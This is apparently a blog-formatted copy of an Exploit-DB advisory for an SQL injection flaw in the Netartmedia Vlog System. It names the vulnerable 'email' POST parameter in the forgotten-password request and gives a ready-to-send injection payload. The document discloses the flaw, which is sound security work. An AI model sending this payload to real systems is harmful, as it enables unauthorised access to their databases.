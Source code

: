 ```yaml
---
layout:     post
title:      "Netartmedia Vlog System - 'email' SQL Injection"
date:       2019-03-21 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```

# Exploit Title: Netartmedia Vlog System - 'email' SQL Injection
# Date: 20.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/vlogsystem/
# Demo Site: https://www.phpscriptdemos.com/vlogs/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
----- PoC: SQLi -----
# Request: http://localhost/[PATH]/index.php
# Vulnerable Parameter: email (POST)
# Attack
Pattern: ProceedSend=1&email=-1'%20OR%203*2*1=6%20AND%20000371=000371%20--%20&mod=forgotten_password
